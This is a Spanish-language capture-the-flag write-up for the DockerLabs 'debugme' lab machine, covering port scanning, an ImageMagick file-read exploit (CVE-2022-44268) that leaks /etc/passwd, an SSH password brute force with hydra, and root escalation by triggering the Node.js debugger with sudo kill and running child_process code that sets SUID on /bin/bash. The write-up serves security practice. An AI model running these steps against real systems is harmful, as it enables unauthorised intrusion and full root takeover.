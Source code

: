 # debugme

Máquina "debugme" de [DockerLabs](https://dockerlabs.es)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Dificil

![debugme](../../maquina-debugme/img/debug.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 23:52:56 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oG escaneo.txt 172.17.0.2
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 172.17.0.2 ()	Status: Up
Host: 172.17.0.2 ()	Ports: 22/open/tcp//ssh//OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)/, 80/open/tcp//http//Apache httpd 2.4.29 ((Ubuntu))/, 443/open/tcp//ssl|http//Apache httpd 2.4.29 ((Ubuntu))/	Ignored State: closed (65532)
# Nmap done at Wed Sep  4 23:53:12 2024 -- 1 IP address (1 host up) scanned in 16.26 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`443: Apache httpd`

**`Puerto 80:`**

![80](../../maquina-debugme/img/80.png)

Ahora hacemos fuzzing para ver si encontramos algun archivo o directorio con algo de información:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2737]
/info.php             (Status: 200) [Size: 118002]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 781486 / 882244 (88.58%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos un `info.php`, que al revisarlo encuentro algo que nos puede ayudar:

![info](../../maquina-debugme/img/info.png)

Ahora que tenemos esta información podemos buscar algún exploit para imagick. Para este caso usaremos [este](https://github.com/voidz0r/CVE-2022-44268).

Una vez descargado el exploit haremos lo que dice el propio repositorio y luego de que nos suelte la imagen, la subiremos a la web. Una vez subida y reziseada nos quedará así:

![image](../../maquina-debugme/img/image.png)

Tocamos click derecho en la imagen roja y nos la guardamos, una vez guardada nos movemos a donde la dejamos y utilizaremos `exiftool` para ver los metadatos. Para hacerlo solo ejecutamos esto:

```css
exiftool <imagen>.png
```

![meta](../../maquina-debugme/img/meta.png)

Como vemos hay un montón de números, pero si hacemos lo que decía el repositorio podremos ver correctamente el `passwd`:

```css
python3 -c 'print(bytes.fromhex("1297.726f6f743a783[SNIP]6d652f6c656e616d3a2f62696e2f62617368.0a."))'
```

Este comando nos soltará en un formato legible el archivo:

```css
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
application:x:1000:1000::/home/application:/bin/bash
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
lenam:x:1001:1001::/home/lenam:/bin/bash
```

## INTRUSION

Ahora que tenemos un usuario, ejecutaremos hydra para el usuario lenam en el ssh:

```css
hydra -l lenam -P <wordlist> ssh://<ip>
```

![hydra](../../maquina-debugme/img/hydra.png)

Ahora que tenemos una contraseña nos conectamos por ssh. **ya estamos dentro**

## ESCALADA DE PRIVILEGIOS

Si ejecutamos `sudo -l` veremos que podemos ejecutar como root el binario `kill`. Para escalar podemos ejecutar `ps aux` y ver si hay algún proceso corriendo del que nos podamos aprovechar:

```css
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.4  64176 15736 ?        Ss   02:37   0:01 /usr/bin/python /usr/bin/supervisord -c /opt/docker/etc/super
root          44  0.0  0.0 216184  2840 ?        S    02:37   0:00 syslog-ng -F --no-caps -p /var/run/syslog-ng.pid
root          45  0.0  0.4 711228 17956 ?        S    02:37   0:00 php-fpm: master process (/etc/php/7.2/fpm/php-fpm.conf)
root          46  0.0  0.1  99288  4152 ?        S    02:37   0:00 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
root          47  0.0  0.0  30108  1280 ?        S    02:37   0:00 /usr/sbin/cron -f
root          53  0.0  0.5 922048 21528 ?        Sl   02:37   0:00 /usr/bin/node /index.js
root          76  0.0  0.0  72304  2000 ?        Ss   02:37   0:00 /usr/sbin/sshd
www-data      78  2.2  0.3 1312076 14596 ?       Sl   02:37   1:17 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
www-data      79  2.2  0.3 1311668 11992 ?       Sl   02:37   1:15 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
applica+     245  0.0  0.4 717096 18332 ?        S    03:01   0:01 php-fpm: pool www
applica+     246  0.0  0.3 713876 14344 ?        S    03:01   0:00 php-fpm: pool www
applica+     247  0.0  0.4 949824 18376 ?        S    03:02   0:00 php-fpm: pool www
root         563  0.0  0.1 104044  7296 ?        Ss   03:33   0:00 sshd: lenam [priv]
lenam        578  0.0  0.1 104044  4376 ?        R    03:33   0:00 sshd: lenam@pts/0
lenam        579  0.0  0.1  20272  3840 pts/0    Ss   03:33   0:00 -bash
lenam        595  0.0  0.0  36016  3328 pts/0    R+   03:34   0:00 ps aux
```

Como vemos el PID 53 está corriendo node, y si buscamos en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) veremos que se puede escalar si ejecutamos lo siguiente:

```css
sudo kill -s SIGUSR1 <PID>
```

Ahora si ejecutamos `netstat -atunop` veremos que el nodjs se ha reiniciado y está abierto el puerto 9229. Ahora ejecutamos:

```css
node inspect 127.0.0.1:9229
```

y luego ejecutamos esto dentro del modo debug:

```css
exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")
```

luego salimos y ponemos `bash -p` y **ya seremos root:**

![root](../../maquina-debugme/img/root.png)

Gracias por leer.
